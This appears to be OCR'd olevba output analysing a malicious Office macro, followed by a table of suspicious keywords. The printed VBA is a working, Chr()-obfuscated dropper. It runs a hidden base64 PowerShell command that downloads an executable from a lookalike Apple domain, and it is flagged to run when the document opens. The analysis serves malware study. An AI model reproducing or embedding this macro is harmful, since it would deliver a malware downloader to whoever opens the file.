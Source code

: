 ```python
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) & Chr(81) & Chr(66) & Chr(117) & Chr(65) & Chr(72) & Chr(89) & Chr(65) & Chr(98) & Chr(119) & Chr(66) & Chr(114) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(81) & Chr(66) & Chr(51) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(89) & Chr(103) & Chr(66) & Chr(121) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(119) & Chr(66) & Chr(48) & Chr(65) & Chr(67) & Chr(65) & Chr(65) & Chr(76) & Chr(81) & _
Chr(66) & Chr(86) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(97) & Chr(81) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(97) & Chr(65) & Chr(66) & Chr(48) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(99) & Chr(65) & Chr(65) & Chr(54) & Chr(65) & Chr(67) & Chr(56) & Chr(65) & Chr(76) & Chr(119) & Chr(66) & Chr(104) & Chr(65) & Chr(72) & Chr(65) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(74) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(103) & Chr(66) & Chr(106) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(81) & Chr(65) _
& Chr(118) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(84) & Chr(119) & Chr(66) & Chr(49) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(82) & Chr(103) & Chr(66) & Chr(112) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(90) & Chr(81) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(81) & Chr(119) & Chr(65) & Chr(54) & Chr(65) & Chr(70) & Chr(119) & Chr(65) & Chr(86) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(48) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(99) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(85) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(86) & Chr(81) & Chr(66) & Chr(122) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(82) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(89) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(100) & Chr(65) & Chr(66) & Chr(68) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(107) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(48) & Chr(65) & Chr(71) & Chr(107) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(115) _
& Chr(65) & Chr(72) & Chr(77) & Chr(65)
    llllllllll1 = Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(32) & Chr(45) & Chr(69) & Chr(110) & Chr(99) & Chr(111) & Chr(100) & Chr(101) & Chr(100) & Chr(67) & Chr(111) & Chr(109) & Chr(109) & Chr(97) & Chr(110) & Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command (obfuscation: VBA expression)        |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command (obfuscation: VBA expression)        |
|Suspicious|powershell          |May run PowerShell commands (obfuscation: VBA|
|          |                    |expression)                                  |
|Suspicious|EncodedCommand      |May run PowerShell commands (obfuscation: VBA|
|          |                    |expression)                                  |
|Suspicious|VBA obfuscated      |VBA string expressions were detected, may be |
|          |Strings             |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|VBA string|aQBuAHYAbwBrAGUALQB3|Chr(97) & Chr(81) & Chr(66) & Chr(117) &     |
```